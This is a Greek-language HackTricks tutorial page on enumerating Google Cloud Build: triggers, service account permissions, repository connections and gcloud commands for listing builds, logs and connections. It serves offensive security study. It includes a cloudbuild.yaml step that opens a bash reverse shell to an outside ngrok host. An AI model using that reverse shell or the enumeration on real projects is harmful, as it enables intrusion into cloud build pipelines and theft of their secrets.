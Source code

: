 # GCP - Απαρίθμηση Cloud Build

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε** στην 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs** στα [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## Βασικές Πληροφορίες

Το Google Cloud Build είναι μια διαχειριζόμενη πλατφόρμα CI/CD που **αυτοματοποιεί τη διαδικασία κατασκευής λογισμικού** και απελευθερώνει διαδικασίες, ενσωματώνοντας **αποθετήρια κώδικα πηγής** και υποστηρίζοντας μια ευρεία γκάμα γλωσσών προγραμματισμού. Επιτρέπει στους προγραμματιστές να κατασκευάζουν, να δοκιμάζουν και να αποθέτουν κώδικα αυτόματα, παρέχοντας ταυτόχρονα ευελιξία για προσαρμογή βημάτων κατασκευής και ροών εργασίας.

Κάθε ένα Cloud Build Trigger **σχετίζεται με ένα Cloud Repository ή συνδέεται απευθείας με ένα εξωτερικό αποθετήριο** (Github, Bitbucket και Gitlab).

{% hint style="success" %}
Δεν είδα κάποιον τρόπο να κλέψω το token του Github/Bitbucket από εδώ ή από τα Cloud Repositories επειδή όταν το αποθετήριο κατεβάζεται, προσπελαύνεται μέσω ενός URL [https://source.cloud.google.com/](https://source.cloud.google.com/) και το Github δεν προσπελαύνεται από τον πελάτη.
{% endhint %}

### Γεγονότα

Το Cloud Build μπορεί να ενεργοποιηθεί αν:

* **Πιέσετε σε μια κλαδί**: Καθορίστε το κλαδί
* **Πιέσετε ένα νέο ετικέτα**: Καθορίστε την ετικέτα
* **Αίτημα ενσωμάτωσης**: Καθορίστε το κλαδί που λαμβάνει το αίτημα ενσωμάτωσης
* **Χειροκίνητη Κλήση**
* **Μήνυμα Pub/Sub:** Καθορίστε το θέμα
* **Συμβάν Webhook**: Θα εκθέσει ένα URL HTTPS και το αίτημα πρέπει να είναι πιστοποιημένο με ένα μυστικό

### Εκτέλεση

Υπάρχουν 3 επιλογές:

* Ένα yaml/json **που καθορίζει τις εντολές** προς εκτέλεση. Συνήθως: `/cloudbuild.yaml`
* Μόνο μία που μπορεί να καθοριστεί "inline" στον ιστότοπο κονσόλας και στο cli
* Πιο κοινή επιλογή
* Σχετική με την μη πιστοποιημένη πρόσβαση
* Ένα **Dockerfile** για κατασκευή
* Ένα **Buildpack** για κατασκευή

### Δικαιώματα SA

Ο **Λογαριασμός Υπηρεσίας έχει το πεδίο `cloud-platform`**, έτσι μπορεί **να χρησιμοποιήσει όλα τα προνόμια.** Αν **δεν καθοριστεί κάποιος Λογαριασμός Υπηρεσίας** (όπως όταν γίνεται υποβολή), θα χρησιμοποιηθεί ο **προεπιλεγμένος Λογαριασμός Υπηρεσίας** `<αριθμός-έργου>@cloudbuild.gserviceaccount.com`.

Προεπιλείς δεν δίνονται δικαιώματα, αλλά είναι αρκετά εύκολο να του δοθούν κάποια:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Έγκριση

Είναι δυνατόν να διαμορφώσετε ένα Cloud Build για **απαιτεί έγκριση για τις εκτελέσεις κατασκευής** (απενεργοποιημένο από προεπιλογή).

### Συνδέσεις & Αποθετήρια

Οι συνδέσεις μπορούν να δημιουργηθούν μέσω:

* **GitHub:** Θα εμφανίσει ένα παράθυρο εξουσιοδότησης OAuth που ζητά άδειες για **να λάβει ένα τοκέν του Github** που θα αποθηκευτεί μέσα στο **Διαχειριστή Μυστικών.**
* **GitHub Enterprise:** Θα ζητήσει να εγκαταστήσετε ένα **GithubApp**. Ένα **διακριτικό ταυτοποίησης** από τον κεντρικό σας διακομιστή GitHub θα δημιουργηθεί και θα αποθηκευτεί σε αυτό το έργο ως μυστικό του **Διαχειριστή Μυστικών.**
* **GitLab / Enterprise:** Πρέπει να **παρέχετε το διακριτικό πρόσβασης API και το διακριτικό πρόσβασης Read API** που θα αποθηκευτεί στο **Διαχειριστή Μυστικών.**

Μόλις δημιουργηθεί μια σύνδεση, μπορείτε να τη χρησιμοποιήσετε για **να συνδέσετε αποθετήρια στα οποία ο λογαριασμός Github έχει πρόσβαση**.

Αυτή η επιλογή είναι διαθέσιμη μέσω του κουμπιού:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Σημειώστε ότι τα αποθετήρια που συνδέονται με αυτόν τον τρόπο είναι **διαθέσιμα μόνο στα Σημεία Ενεργοποίησης που χρησιμοποιούν τη 2η γενιά.**
{% endhint %}

### Σύνδεση Αποθετηρίου

Αυτό δεν είναι το ίδιο με μια **`σύνδεση`**. Αυτό επιτρέπει **διαφορετικούς** τρόπους να **έχετε πρόσβαση σε ένα αποθετήριο Github ή Bitbucket** αλλά **δεν δημιουργεί ένα αντικείμενο σύνδεσης, αλλά δημιουργεί ένα αντικείμενο αποθετηρίου (της 1ης γενιάς).**

Αυτή η επιλογή είναι διαθέσιμη μέσω του κουμπιού:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Αποθήκευση

Μερικές φορές το Cloud Build θα **δημιουργήσει μια νέα αποθήκευση για την αποθήκευση των αρχείων για το σημείο ενεργοποίησης**. Αυτό συμβαίνει για παράδειγμα στο παράδειγμα που προσφέρει το GCP με:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
Δημιουργήθηκε ένα κουτί αποθήκευσης με το όνομα [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) για να αποθηκεύει ένα αρχείο `.tgz` με τα αρχεία που θα χρησιμοποιηθούν.

### Λήψη κέλυφους
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### Απαρίθμηση

Μπορείτε να βρείτε **ευαίσθητες πληροφορίες σε ρυθμίσεις και καταγραφές κατασκευής**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Εscalation προνομίων

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Μη εξουσιοδοτημένη πρόσβαση

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Μετά την εκμετάλλευση

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>
